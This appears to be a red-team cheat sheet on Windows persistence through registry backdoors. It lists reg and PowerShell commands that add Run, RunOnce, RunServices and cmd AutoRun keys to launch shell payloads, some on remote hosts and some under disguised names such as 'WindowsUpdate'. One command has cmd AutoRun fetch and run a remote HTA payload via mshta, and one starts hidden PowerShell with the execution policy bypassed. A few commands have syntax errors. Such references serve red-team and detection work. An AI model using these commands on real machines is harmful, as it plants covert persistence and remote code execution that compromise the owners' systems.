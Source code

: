 # Living off the Land

## 01 - Registry Backdoors

### 1.1 - HKLM

#### 1.1.1 - Add Registry Key Syntax

- Command Prompt

```
C\> reg import file.reg

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v <value> /t reg_sz /d "rundll32.exe C:\path\to\shell.dll,ExecDLL" /f
```

- Powershell

```powershell
PS C:\> Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "<value>" -PropertyType String -Value "C:\path\to\shell.exe" -Force
```

#### 1.1.2 - Delete Registry Key Syntax

```
C:\> reg del [\\<IP>\]hklm\\software\\microsoft\\currentversion\\run /v <value> /f
```

### HKLM

```
C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce /v UpdateOnce /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices /v WindowsService /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServicesOnce /v UpdateSVC /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001 /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v Dependency /t REG_SZ /d "C:\path\to\shell.dll"
```

### HKCU

```
C:\> reg add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Image /t REG_SZ /d "powershell.exe -ep bypass -w hidden -nologo -NonI -f C:\path\to\shell.ps1" /f

C:\> reg add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce /v WindowsUpdate /t REG_SZ /d "rundll32.exe C:\path\to\shell.dll,ExecuteShell" /f

C:\> reg add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add [\\<IP>\]HKCU\SOFTWARE\Microsoft\Command Processor /v AutoRun /t REG_SZ /d "powershell.exe Start-Process -windowstyle hidden -FilePath mshta.exe http://<IP>/shell.hta" /f
```

---
## References

- [[Windows Post Exploitation Persistence References]]

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)